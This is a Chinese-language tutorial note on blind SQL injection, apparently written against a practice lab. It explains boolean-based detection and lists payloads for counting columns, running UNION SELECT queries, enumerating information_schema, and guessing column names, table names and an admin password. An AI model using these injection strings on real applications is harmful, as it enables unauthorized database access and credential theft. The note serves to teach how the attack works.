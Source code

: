 # SQL盲注

**[SQL盲注：]** 不显示数据库内建的报错信息（内建的报错信息主要是为帮助开发人员发现和修复漏洞），但由于报错信息提供了大量的有用信息。当程序员隐藏了数据库内建报错信息，替代为通用的错误提示，`SQL注入无法依据报错信息判断注入语句的执行结果`，即为盲注。

*思路：*既然无法基于报错信息判断结果，<font color=red> 基于逻辑真假的不同结果 </font>来判断

```
a.  1' and 1=1--+
```

![SQL blind](img/SQL blind/SQL blind1.png)

```
b.  1' and 1=2--+     [输入钱真后假，无返回，页面没有被执行]
```

 **a与b比较，表明存在SQL注入漏洞**



···  常用盲注语句[原理：猜测数据]  ··· 

```
1' order by 5-- 
```

*通过修改数值来测试列数，若页数没出现结果，则不存在该漏洞，1不可以去掉，因为SQL语句，表明必须提交一个正确的值，不一定为1*

![SQL blind](img/SQL blind/SQL blind2.png)

```
2' union select user(),database()--     [查询用户名和数据库名]
```

![SQL blind](img/SQL blind/SQL blind3.png)

```
2' union select 1,2-- 
```

![SQL blind4](img/SQL blind/SQL blind4.png)



```
1' union select null,CONCAT_WS(CHAR(32,58,32),user(),database(),version())--+
```

```
[查询所有的表名，#为注释后面的代码]
1' and 1=0 union select null,table_name from information_schema.table#
1' and 1=0 union select null,table_name from information_schema.columns where table_name='users'#
```

![SQL blind5](img/SQL blind/SQL blind5.png)

----



### 当无权读取information_schema库/拒绝union，order by语句时

**【若为真，则显示内容，若为假，则不显示如何内容】**

···  语句中的1不为固定，可灵活变化·，甚至为字符，视情况而定 ···

*使用Burpsuite自动化猜解内容*



1. 猜列名

```
1' and user is [not] null--+     [测试user列是否为空]
```



2. 猜当前表表名

```
1' and user.user is not null--+     [列为已知列]
```



3. 猜库里其他表

```
1' and (Select count(*) from table)>0--+
```



4. 列表对应关系

```
1' and users.user is not null--+
```



5. 猜字段内容

```
1' and user='admin'
1' or user like '%a%'
```



6. 猜账号对应密码

```
2' or user='admin' and password='faqfoiauggvuagbymd5'
[若为1，为id=1；若为2，则id=2（意思为查询第二个账号）；]
```































